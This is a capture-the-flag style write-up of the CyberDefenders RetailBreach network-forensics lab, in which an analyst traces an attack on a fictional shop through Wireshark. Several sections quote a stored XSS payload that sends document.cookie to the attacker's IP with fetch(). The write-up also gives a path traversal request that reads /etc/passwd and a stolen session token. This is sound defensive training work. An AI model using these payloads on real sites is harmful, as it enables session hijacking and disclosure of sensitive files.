


# RetailBreach (CyberDefenders Network Forensics Lab)

_A hands-on SOC analyst project focused on PCAP analysis, attacker identification, web reconnaissance, stored XSS, session hijacking, and path traversal._

---

## Table of Contents

- [Project Summary](#project-summary)
- [Skills Demonstrated](#skills-demonstrated)
- [Investigation Process](#investigation-process)
  - [Stage 1: Identify the Attacker](#stage-1-identify-the-attacker)
  - [Stage 2: Identify the Directory Brute-Forcing Tool](#stage-2-identify-the-directory-brute-forcing-tool)
  - [Stage 3: Identify the XSS Payload](#stage-3-identify-the-xss-payload)
  - [Stage 4: Determine When the Admin Triggered the XSS](#stage-4-determine-when-the-admin-triggered-the-xss)
  - [Stage 5: Identify the Stolen Session Token](#stage-5-identify-the-stolen-session-token)
  - [Stage 6: Identify the Exploited Server-Side Script](#stage-6-identify-the-exploited-server-side-script)
  - [Stage 7: Analyze the Path Traversal Payload](#stage-7-analyze-the-path-traversal-payload)
- [Attack Timeline](#attack-timeline)
- [Key Findings](#key-findings)
- [Indicators of Compromise](#indicators-of-compromise)
- [Lessons Learned](#lessons-learned)
- [What I’d Improve Next Time](#what-id-improve-next-time)
- [References](#references)
---

## Project Summary

> **What is this project?**
>
> I completed the CyberDefenders **RetailBreach** lab, a network-forensics scenario involving the compromise of a fictional retail web application called ShopSphere. Using Wireshark, I analyzed HTTP traffic from a PCAP, identified the attacker, detected directory brute-forcing activity, recovered a stored XSS payload, traced the theft of an administrator session token, identified unauthorized administrative access, and investigated a path traversal attack used to read `/etc/passwd`.

This investigation was completed with occasional hints when needed, with findings independently validated against the PCAP in Wireshark.

---

## Skills Demonstrated

- PCAP analysis with Wireshark
- HTTP request/response analysis
- Identifying attacker, victim, and server IP addresses
- Using Wireshark display filters
- Reviewing IPv4 conversations and endpoints
- Following HTTP/TCP streams
- Identifying automated reconnaissance through HTTP behavior
- Reading HTTP `User-Agent` values
- Recognizing directory brute-forcing activity
- Decoding URL-encoded data
- Analyzing stored Cross-Site Scripting (XSS)
- Understanding browser cookie theft through `document.cookie`
- Tracking session hijacking through `PHPSESSID`
- Distinguishing client-side JavaScript from server-side PHP scripts
- Identifying path traversal exploitation
- Building an attack timeline from network evidence
- Documenting findings for a SOC investigation

---

## Investigation Process

### Stage 1: Identify the Attacker

- **Problem:** Determine which IP address was responsible for the malicious activity.
- **Actions:**
  - Reviewed **Statistics → Conversations → IPv4** in Wireshark.
  - Compared traffic volume between clients communicating with the ShopSphere server.
  - Filtered HTTP requests from the most active client.
  - Observed repeated requests for unusual hidden files and directories.
- **Evidence:**

```text
Attacker IP: 111.224.180.128
Web Server:  73.124.17.52
Other Client/Admin: 135.143.142.5
```

Suspicious requests from the attacker included paths such as:

```text
/.forward
/.cvs
/.cvsignore
/.config
/.hta
/.perf
/.git/HEAD
/.cache
```

- **Result:** Identified `111.224.180.128` as the attacker IP.

**Useful Wireshark filter:**

```wireshark
http.request && ip.src == 111.224.180.128
```

> 


---

### Stage 2: Identify the Directory Brute-Forcing Tool

- **Problem:** Determine which tool the attacker used to discover hidden paths.
- **Actions:**
  - Followed an HTTP stream containing repeated requests to hidden files.
  - Inspected the HTTP request headers.
  - Located the `User-Agent` value.
- **Evidence:**

```text
User-Agent: gobuster/3.6
```

- **Result:** The attacker used **Gobuster 3.6** for directory brute-forcing.

>  

---

### Stage 3: Identify the XSS Payload

- **Problem:** Determine the malicious JavaScript injected into the ShopSphere review functionality.
- **Actions:**
  - Filtered HTTP `POST` requests from the attacker.
  - Identified suspicious traffic to `/reviews.php`.
  - Followed the HTTP stream.
  - Extracted the URL-encoded `review` parameter.
  - URL-decoded the payload.
- **Evidence:**

Encoded payload:

```text
%3Cscript%3Efetch%28%27http%3A%2F%2F111.224.180.128%2F%27+%2B+document.cookie%29%3B%3C%2Fscript%3E
```

Decoded payload:

```html
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

- **Analysis:**
  - The payload reads the victim's browser cookie using `document.cookie`.
  - It then uses `fetch()` to send that cookie to the attacker at `111.224.180.128`.
  - Because the malicious review was stored and later viewed by another user, this behavior is consistent with **stored XSS**.
- **Result:** Identified the XSS payload used to steal the administrator's session cookie.

**Useful Wireshark filter:**

```wireshark
http.request.method == "POST" && ip.src == 111.224.180.128
```

> 

---

### Stage 4: Determine When the Admin Triggered the XSS

- **Problem:** Determine when the administrator first visited the page containing the malicious script.
- **Actions:**
  - Filtered HTTP requests from `135.143.142.5`.
  - Located the first `GET /reviews.php` request occurring after the XSS was injected.
  - Followed the HTTP stream and reviewed the response timestamp.
- **Evidence:**

```text
Admin/Victim IP: 135.143.142.5
Request: GET /reviews.php
Timestamp: 2024-03-29 12:09 UTC
```

The XSS had been submitted shortly before this request.

- **Result:** The administrator first visited the poisoned review page at:

```text
2024-03-29 12:09 UTC
```

**Useful Wireshark filter:**

```wireshark
ip.src == 135.143.142.5 && http.request.uri contains "reviews.php"
```

> 

---

### Stage 5: Identify the Stolen Session Token

- **Problem:** Determine which administrator session token was stolen and later used by the attacker.
- **Actions:**
  - Followed the administrator's HTTP request to `reviews.php`.
  - Inspected the `Cookie` header.
  - Correlated the cookie with the XSS payload that exfiltrated `document.cookie`.
- **Evidence:**

```text
Cookie: PHPSESSID=lqkctf24s9h9lg67teu8uevn3q
```

Session token:

```text
lqkctf24s9h9lg67teu8uevn3q
```

- **Analysis:**
  - The XSS payload caused the administrator's browser to send its cookie to the attacker.
  - Possession of the valid `PHPSESSID` allowed the attacker to reuse the administrator's authenticated session.
- **Result:** Identified the stolen administrator session token as:

```text
lqkctf24s9h9lg67teu8uevn3q
```

> 

---

### Stage 6: Identify the Exploited Server-Side Script

- **Problem:** Determine which server-side PHP script the attacker later exploited.
- **Actions:**
  - Reviewed HTTP requests to the administrative section of the application.
  - Identified requests to the log-viewing functionality.
  - Observed that the script accepted a user-controlled `file` parameter.
- **Evidence:**

```text
/admin/log_viewer.php
/admin/log_viewer.php?file=error.log
```

- **Analysis:**
  - Here, the word **script** refers to a server-side PHP file, not a JavaScript `<script>` tag.
  - `log_viewer.php` accepts a filename through the `file` query parameter and returns the requested file's contents.
- **Result:** Identified the exploited PHP script as:

```text
log_viewer.php
```

**Useful Wireshark filter:**

```wireshark
ip.src == 111.224.180.128 && http.request.uri contains "log_viewer.php"
```

> 

---

### Stage 7: Analyze the Path Traversal Payload

- **Problem:** Determine how the attacker abused `log_viewer.php` to access a sensitive system file.
- **Actions:**
  - Filtered attacker requests involving `log_viewer.php`.
  - Followed the malicious HTTP stream.
  - Inspected the `file` parameter.
  - Verified that the server returned Unix account information from `/etc/passwd`.
- **Evidence:**

Malicious request:

```text
GET /admin/log_viewer.php?file=../../../../../etc/passwd HTTP/1.1
```

Path traversal payload:

```text
../../../../../etc/passwd
```

The HTTP response included entries such as:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

- **Analysis:**
  - Each `../` moves one directory upward in the filesystem hierarchy.
  - The attacker used repeated traversal sequences to escape the intended log directory.
  - The request ultimately reached `/etc/passwd`.
  - The returned file contents confirmed that the attack succeeded.
- **Result:** Confirmed successful **path traversal** through `log_viewer.php`.

> 

---

## Attack Timeline

| Time / Stage | Activity |
|---|---|
| Reconnaissance | `111.224.180.128` performs directory brute-forcing against ShopSphere using Gobuster |
| Initial Web Exploitation | Attacker submits a malicious stored XSS payload to `/reviews.php` |
| 2024-03-29 12:09 UTC | Administrator at `135.143.142.5` visits `/reviews.php` and triggers the stored XSS |
| Session Theft | XSS reads `document.cookie` and sends the administrator's `PHPSESSID` to the attacker |
| Session Hijacking | Attacker reuses the stolen session token to access administrative functionality |
| Post-Compromise Discovery | Attacker accesses `/admin/log_viewer.php` and tests `file=error.log` |
| Path Traversal | Attacker submits `../../../../../etc/passwd` through the `file` parameter |
| Sensitive File Access | Server returns contents of `/etc/passwd` |

---

## Key Findings

| Finding | Value |
|---|---|
| Attacker IP | `111.224.180.128` |
| Web Server IP | `73.124.17.52` |
| Admin/Victim IP | `135.143.142.5` |
| Reconnaissance Tool | `Gobuster 3.6` |
| XSS Target | `/reviews.php` |
| XSS Type | Stored XSS |
| XSS Payload | `<script>fetch('http://111.224.180.128/' + document.cookie);</script>` |
| Admin XSS Trigger Time | `2024-03-29 12:09 UTC` |
| Stolen Session Cookie Name | `PHPSESSID` |
| Stolen Session Token | `lqkctf24s9h9lg67teu8uevn3q` |
| Exploited PHP Script | `log_viewer.php` |
| Vulnerable Parameter | `file` |
| Path Traversal Payload | `../../../../../etc/passwd` |
| Sensitive File Accessed | `/etc/passwd` |

---

## Indicators of Compromise

```text
111.224.180.128
135.143.142.5
73.124.17.52
gobuster/3.6
/reviews.php
/admin/log_viewer.php
../../../../../etc/passwd
PHPSESSID=lqkctf24s9h9lg67teu8uevn3q
```

Suspicious XSS content:

```html
<script>fetch('http://111.224.180.128/' + document.cookie);</script>
```

---

## Lessons Learned

- High traffic volume can provide an initial lead, but attacker attribution should be confirmed by reviewing the actual behavior in the traffic.
- URL-encoded payloads should be decoded before analysis; `%3C`, `%3E`, and `%2F` are common indicators that readable characters have been encoded.
- Wireshark does not directly show JavaScript executing inside a browser, but it can show the network traffic caused by that JavaScript.
- `reviews.php` and `log_viewer.php` were involved in different stages of the attack: the first exposed stored XSS, while the second exposed path traversal.
- Query parameters such as `?file=` are important during investigations because user-controlled file paths can introduce path traversal vulnerabilities.

---

## What I’d Improve Next Time

- Build the attack timeline while investigating rather than reconstructing it after solving the lab.
- Separate attacker, victim, and server traffic with targeted filters before manually browsing packets.
- Strengthen my understanding of HTTP, JavaScript, cookies, PHP, and basic web application architecture because these concepts directly improve network-forensics analysis.

---

## References

- [CyberDefenders – RetailBreach Lab](https://cyberdefenders.org/blueteam-ctf-challenges/retailbreach/)
- [OWASP – Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [OWASP – Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP – Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [OWASP – Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
